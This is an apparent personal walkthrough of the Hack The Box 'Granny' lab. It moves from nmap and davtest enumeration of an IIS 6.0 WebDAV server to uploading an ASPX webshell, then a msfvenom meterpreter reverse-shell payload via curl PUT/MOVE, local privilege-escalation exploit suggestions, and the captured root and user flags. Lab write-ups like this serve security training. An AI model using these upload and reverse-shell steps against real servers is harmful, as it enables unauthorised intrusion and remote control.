

└─$ nmap -sV -sC  10.10.10.15 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 12:16 EST
Nmap scan report for 10.10.10.15
Host is up (0.29s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 22 Feb 2023 17:17:04 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.08 seconds
``
200      GET       39l      159w     1433c http://10.10.10.15/
301      GET        2l       10w      149c http://10.10.10.15/images => http://10.10.10.15/images/
301      GET        2l       10w      158c http://10.10.10.15/aspnet_client => http://10.10.10.15/aspnet%5Fclient/
301      GET        2l       10w      153c http://10.10.10.15/_private => http://10.10.10.15/%5Fprivate/
301      GET        2l       10w      155c http://10.10.10.15/_vti_log => http://10.10.10.15/%5Fvti%5Flog/
301      GET        2l       10w      155c http://10.10.10.15/_vti_bin => http://10.10.10.15/%5Fvti%5Fbin/
301      GET        2l       10w      149c http://10.10.10.15/Images => http://10.10.10.15/Images/
301      GET        2l       10w      149c http://10.10.10.15/IMAGES => http://10.10.10.15/IMAGES/
301      GET        2l       10w      158c http://10.10.10.15/Aspnet_client => http://10.10.10.15/Aspnet%5Fclient/
301      GET        2l       10w      153c http://10.10.10.15/_Private => http://10.10.10.15/%5FPrivate/
301      GET        2l       10w      158c http://10.10.10.15/aspnet_Client => http://10.10.10.15/aspnet%5FClient/
301      GET        2l       10w      158c http://10.10.10.15/ASPNET_CLIENT => http://10.10.10.15/ASPNET%5FCLIENT/
301      GET        2l       10w      153c http://10.10.10.15/_PRIVATE => http://10.10.10.15/%5FPRIVATE/
301      GET        2l       10w      155c http://10.10.10.15/_VTI_LOG => http://10.10.10.15/%5FVTI%5FLOG/

```

https://0xdf.gitlab.io/2019/03/06/htb-granny.html

using davtest

 davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: j4T86AANdyjTW
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_j4T86AANdyjTW
********************************************************
 Sending test files
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.pl
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.php
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jsp
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
PUT     asp     FAIL
PUT     shtml   FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.cfm
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jhtml
PUT     cgi     FAIL
********************************************************
 Checking for test file execution
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
EXEC    pl      FAIL
EXEC    php     FAIL
EXEC    jsp     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
EXEC    cfm     FAIL
EXEC    jhtml   FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_j4T86AANdyjTW
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.pl
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.php
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jsp
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.cfm
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jhtml
Executes: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
Executes: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt

check for upload

└─$ curl http://10.10.10.15/df.txt  
hi                                                                                            

file upload possible

cp /usr/share/webshells/aspx/cmdasp.aspx .

curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt


do with a meterpreter

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=443 -f aspx > met.aspx

curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 

curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt

curl http://10.10.10.15/met.aspx

with multi handler ready


msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 167 exploit checks are being tried...
[-] 10.10.10.15 - Post interrupted by the console user
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 167 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.                                                                                        
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                                                       
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.                                                                                                       
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.                                                                                                       
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.                                                                                        
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.                                                                                                       
 7   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.      


 none of the exploits are giving me a shell

 

 the reason was incorrect lhost. that is why the shell was dying

 with correct lhost I got a root shell!

 

 C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9

C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
